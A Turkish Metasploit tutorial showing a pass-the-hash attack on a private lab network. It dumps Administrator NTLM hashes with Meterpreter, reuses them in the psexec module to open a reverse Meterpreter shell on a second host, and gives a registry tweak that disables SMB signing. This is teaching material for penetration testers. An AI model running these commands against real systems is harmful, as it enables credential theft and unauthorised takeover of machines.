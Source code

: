 ```yaml
---
draft: false

title:  'MSF PSEexec Pass the Hash'
date: '2017-05-25T13:17:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.' 
 
url:  /tr/msf-pseexec-pass-the-hash/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.



Normalde izlenen yol, sistemde meterpreter shell açıldığında `fgdump`, `pwdump` veya `cachedump` komutlarıyla parola elde etmektir. Bu aramalar esnasında bulduğunuz `hash` değerleri olursa, bunları çeşitli araçlar kullanarak çözmeye ve parolaların açık halini elde etmeye çalışırız.



Oysa bazen başka bir durumla karşı karşı kalabilirsiniz. Bir sistemde `Administrator` yetkili bir oturum açtınız ve kullanıcının `hash` olarak formatlı parolasını elde ettiniz. Bu oturum açtığınız sistem üzerinden aynı ağda bulunan başka bir sisteme bağlanmak istediğinizde, `Administrator` kullanıcısının parolasını çözmenize gerek olmayabilir. Genellikle ağdaki cihazlar bu `hash` değerleri kulanarak haberleşirler. psexec modülü, bulduğunuz `hash` değerini parola olarak kullanmanıza olanak sağlar.



UYARI-1:


<!-- wp:quote -->
<blockquote class="wp-block-quote">
NTLM kullanan sistemde, bulacağınız `hash` değeri `******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c` formatındaysa, baş taraftaki `******NOPASSWORD*******` kısmını 32 adet sıfır ile değiştirerek `psexec` içine değişken olarak girmeniz gerekir. Yani değer, `00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c` şeklinde olmalıdır.
</blockquote>
<!-- /wp:quote -->


UYARI-2:


<!-- wp:quote -->
<blockquote class="wp-block-quote">
Lab ortamında, doğru hash değeri girdiğiniz halde `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` hatası alıyorsanız, hedef Windows sisteminin Registry ayarlarında `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters` içerisinde `RequireSecuritySignature` değerini `0` olarak ayarlamalısınız.
</blockquote>
<!-- /wp:quote -->


## Hashdump



Aşağıda, bir exploit kullanılarak Meterpreter oturumu açılmıştır ve `post/windows/gather/hashdump` modülü ile sistemde hash değerleri bulunmak istenmektedir.


```bash
> Meterpreter session 1 opened **(**192.168.57.133:443 -> 192.168.57.131:1042**)**

meterpreter > run post/windows/gather/hashdump 

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
meterpreter >```



Görüldüğü gibi, `RHOST: 192.168.57.131` IP adresinde bulunan Administrator kullanıcısına ait `e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c` değeri elde edilmiştir.



Şimdi bu hash değerini kullanarak `RHOST: 192.168.57.140` IP adresine oturum açmayı deneyelim. Tabii ki önceden yaptığınız taramada aynı ağda `192.168.57.140` IP adresinde ve `445` portunda `SMB` servisinin çalıştığını keşfettiğinizi kabul ediyoruz.



## psexec



Önce `msfconsole` ile Metasploit Framework başlatalım ve `psexec` modülünü yükleyelim.


```bash
root@kali:~# msfconsole

                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##


       **=[** metasploit v4.2.0-dev **[**core:4.2 api:1.0]
+ -- --**=[** 787 exploits - 425 auxiliary - 128 post
+ -- --**=[** 238 payloads - 27 encoders - 8 nops
       **=[** svn r14551 updated yesterday **(**2012.01.14**)**

msf > search psexec

Exploits
**========**

   Name                       Description
   ----                       -----------
   windows/smb/psexec         Microsoft Windows Authenticated User Code Execution
   windows/smb/smb_relay      Microsoft Windows SMB Relay Code Execution

msf > use exploit/windows/smb/psexec
msf exploit**(**psexec**)** > set payload windows/meterpreter/reverse_tcp
payload **=>** windows/meterpreter/reverse_tcp
msf exploit**(**psexec**)** > set LHOST 192.168.57.133
LHOST **=>** 192.168.57.133
msf exploit**(**psexec**)** > set LPORT 443
LPORT **=>** 443
msf exploit**(**psexec**)** > set RHOST 192.168.57.140
RHOST **=>** 192.168.57.140
msf exploit**(**psexec**)** > show options

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.140   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password **for **the specified username
   SMBUser  Administrator    yes       The username to authenticate as


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.57.133   yes       The local address
   LPORT     443              yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Automatic```



## SMBPass



Yukarıda görüldüğü gibi `exploit/windows/smb/psexec` modülünde `SMBPass` değişkenini girmemiz gerekmektedir. `SMBPass` değişkenine elimizde bulunan hash değerini girelim ve modülü `exploit` komutuyla çalıştıralım.


```bash
msf exploit**(**psexec**)** > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass **=>** e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit**(**psexec**)** > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'Administrator'...
> Uploading payload...
> Created \KoVCxCjx.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service **(**XKqtKinn - "MSSeYtOQydnRPWl"**)**...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \KoVCxCjx.exe...
> Sending stage **(**719360 bytes**)**
> Meterpreter session 1 opened **(**192.168.57.133:443 -> 192.168.57.140:445**)**

meterpreter > shell
Process 3680 created.
Channel 1 created.
Microsoft Windows **[**Version 5.2.3790]
**(**C**)** Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
```



Gördüğünüz gibi `192.168.57.140` IP adresinde oturum açılmıştır.
